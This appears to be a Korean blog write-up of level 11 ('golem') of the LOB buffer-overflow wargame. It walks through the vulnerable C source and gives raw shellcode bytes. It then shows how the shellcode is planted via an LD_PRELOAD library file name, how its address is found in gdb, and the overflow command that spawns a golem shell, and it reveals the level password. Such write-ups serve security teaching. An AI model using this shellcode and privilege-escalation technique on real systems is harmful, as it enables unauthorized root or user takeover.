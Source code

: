 ```yaml
---
layout: post
title:  "[LOB]Level11. golem"
subtitle:   "[LOB]skeleton → golem"
categories: Write-up
tags:
- Wargame
- LOB(The Lord of Bufferoverflow)
- Write-up
---
```


## keyword : stack destroyer

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - golem
        - stack destroyer
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

        // stack destroyer!
    memset(buffer, 0, 44);
	memset(buffer+48, 0, 0xbfffffff - (int)(buffer+48));
}
```

'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81



buffer의 시작주소부터 EBP주소까지 0으로 초기화하고,  RET이후부터 0xbfffffff까지 0으로 초기화 한다.

앞문제에서 심볼릭 링크를 이용한 공격을 막혔음을 의미한다.



이럴경우 LD_PRELOAD 환경변수를 이용해야 한다.



> **LD_PRELOAD**
>
> 프로세스를 실행하는 중에 라이브러리를 로딩할 때, LD_PRELOAD 환경변수가 설정되어 있으면 해당 변수에 지정된 라이브러리를 먼저 로딩하고, 이중 libc 함수명과 동일한 함수가 있다면 해당 함수를 먼저 호출해 준다. 이러한 특성을 이용하여 후킹도 가능하다.



##### 1. LD_PRELOAD 환경 변수 등록

tmp.c 라는 파일을 만들고 해당 파일에 NOP코드와 쉘코드로 구성된 파일명으로 컴파일 한다. 이때 `-fPIC -shared` 옵션을 사용하여 컴파일한다. <u>쉘코드 안에는 '\x2f'가 있으면 안된다.</u>

그리고 export LD_PRELOAD 명령어로 해당 파일을 등록한다. <u>이때 파일명을 반드시 절대경로로 지정해야 한다.</u>

> -fPIC : Position-Independent Code의 약자이며 .o 파일을 동적라이브러리로 사용하도록 컴파일 하는 옵션
>
> -shared : 공유 라이브러리를 만드는 옵션

```sh
[skeleton@localhost tmp]$ gcc -fPIC -shared tmp.c -o `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
```

```sh
[skeleton@localhost tmp]$ export LD_PRELOAD="/home/skeleton/tmp/`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`"
```



```sh
(gdb) x/32x $esp-3000
....
0xbffff4f4:	0xbffff500	0x400075bb	0x40017000	0x00002fb2
0xbffff504:	0x40013868	0xbffff6e4	0x4000380e	0x40014478
0xbffff514:	0x6d6f682f	0x6b732f65	0x74656c65	0x742f6e6f
0xbffff524:	0x902f706d	0x90909090	0x90909090	0x90909090
0xbffff534:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff544:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff554:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff564:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb)
0xbffff574:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff584:	0x90909090	0xeb909090	0xc9315e11	0x6c8032b1
0xbffff594:	0x8001ff0e	0xf67501e9	0xeae805eb	0x32ffffff
0xbffff5a4:	0x306951c1	0x69697430	0x6f6a6330	0x5451e48a
0xbffff5b4:	0xb19ae28a	0x0081ce0c	0x40013868	0x4000220c
0xbffff5c4:	0xbffffaf5	0x00000000	0x00000000	0x00000000
```

쉘코드가 포함된 LD_PRELOAD 의 주소를 구한다. (0xbffff534 : NOP중간 주소)



```sh
[skeleton@localhost skeleton]$ ./golem `python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA4���
bash$ my-pass
euid = 511
cup of coffee
bash$ id
uid=510(skeleton) gid=510(skeleton) euid=511(golem) egid=511(golem) groups=510(skeleton)
```

`python -c 'print "A"*44+"\x34\xf5\xff\xbf"'`

##### **golem / cup of coffee**